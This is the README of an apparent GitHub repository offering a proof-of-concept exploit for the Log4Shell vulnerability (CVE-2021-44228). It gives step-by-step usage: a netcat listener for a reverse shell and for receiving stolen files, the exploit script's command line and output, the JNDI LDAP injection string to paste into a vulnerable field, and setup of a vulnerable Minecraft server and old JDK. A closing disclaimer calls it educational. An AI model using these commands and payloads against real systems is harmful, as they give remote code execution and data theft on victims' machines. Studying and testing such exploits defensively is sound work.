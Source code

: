 # log4j-shell-poc
A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability.

Recently there was a new vulnerability in log4j, a java logging library that is very widely used in the likes of elasticsearch, minecraft and numerous others.

In this repository there is an example vulnerable application and proof-of-concept (POC) exploit of it.


Proof-of-concept (POC)
----------------------

As a PoC there is a python file that automates the process. 


#### Requirements:
```bash
pip install -r requirements.txt
```


#### Usage:

* Start a netcat listener to accept reverse shell connection.<br>
```bash
$ nc -lvnp 9001 # For remote shell
$ nc -lvnp 9001 > stolen-data.zip # For document stealer
```


* Launch the exploit.<br>
**Note:** For this to work, the extracted java archive has to be named: `jdk1.8.0_20`, and be in the same directory.

```bash
$ python3 poc.py --userip localhost --webport 8000 --lport 9001 --payload /path/to/payload

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.


Vulnerable application
--------------------------

Any java application that uses the vulnrable version of log4j would work, I use a Minecraft server, version 1.8-1.18.0 are all vulnrable. 

Old versions of the server can be donwloaded in the official Minecraft launcher or at [MCVersions.net](http://www.mcversions.net)


Getting the Java version.
--------------------------------------

Oracle thankfully provides an archive for all previous java versions:<br>
[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).<br>
Scroll down to `8u20` and download the appropriate files for your operating system and hardware.
![Screenshot from 2021-12-11 00-09-25](https://user-images.githubusercontent.com/46561460/145655967-b5808b9f-d919-476f-9cbc-ed9eaff51585.png)

**Note:** You do need to make an account to be able to download the package.

Once you have downloaded and extracted the archive, you can find `java` and a few related binaries in `jdk1.8.0_20/bin`.<br>
**Note:** Make sure to extract the jdk folder into this repository with the same name in order for it to work.

```
❯ tar -xf jdk-8u20-linux-x64.tar.gz

❯ ./jdk1.8.0_20/bin/java -version
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)
```

Disclaimer
----------
This repository is not intended to be a one-click exploit to CVE-2021-44228. The purpose of this project is to help people learn about this vulnerability, and perhaps test their own applications (however there are better applications for this purpose, ei: [https://log4shell.tools/](https://log4shell.tools/)).
